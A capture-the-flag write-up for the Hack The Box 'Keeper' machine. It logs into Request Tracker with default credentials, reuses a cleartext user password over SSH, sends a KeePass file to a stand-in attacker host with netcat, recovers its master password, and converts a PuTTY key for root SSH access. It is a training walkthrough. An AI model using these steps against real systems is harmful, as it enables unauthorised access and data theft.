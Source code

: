 # HTB - Keeper

**IP Address:** `10.10.11.35`  
**OS:** Ubuntu Jammy (22.04)  
**Difficulty:** Easy  
**Tags:** #WebApp, #Docker, #RequestTracker, #SSH, #KeePass, #PuTTYKeyConversion

---

## 1. Initial Enumeration

### 1.1 Nmap Scan

Open Ports:

- `22/tcp` → SSH (OpenSSH 8.9p1 Ubuntu)
- `80/tcp` → HTTP (nginx 1.18.0)

---

## 2. Web Enumeration

Accessed `http://10.10.11.35`.  
Received redirect-like behavior.  

Added the hostname from the redirect manually into `/etc/hosts` to access the application.

Discovered a **Request Tracker** system.  
Searched GitHub and found default Docker environment variables in its Dockerfile:

```bash
ENV RT_DBA_USER root
ENV RT_DBA_PASSWORD password
```

✅ Used `root:password` to log in.

---

## 3. Credential Discovery

Navigated to **Admin → Users → lnorgaard**.  
Discovered cleartext password: `Welcome2023!`

---

## 4. SSH Access

Used `lnorgaard:Welcome2023!` to log in via SSH:

```bash
ssh lnorgaard@10.10.11.35
```

🏁 **User flag obtained**

---

## 5. KeePass File Transfer

Found `.kdbx` (KeePass) file on the system.  

Compressed it:

```bash
zip comprimido.zip <filename>
```

Transferred it using Netcat:

```bash
# Victim
nc <attacker_ip> 443 < comprimido.zip

# Attacker
nc -lvnp 443 > comprimido.zip
```

Verified transfer via `md5sum`.

---

## 6. KeePass File Cracking

### 6.1 Tried Wordlists → ❌ Failed

### 6.2 Used GitHub tool:

```bash
https://github.com/matro7sh/keepass-dump-masterkey
```

Extracted several candidate passwords.  
One was `rødgrød med fløde` (Danish phrase).

✅ Correct KeePass master password.

---

## 7. Found Root SSH Key

Inside KeePass entry for `root` user:

- PuTTY format private key

Converted key to PEM format:

```bash
puttygen key.ppk -O private-openssh -o id_rsa
chmod 600 id_rsa
```

---

## 8. SSH as Root

```bash
ssh -i id_rsa root@10.10.11.35
```

🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE
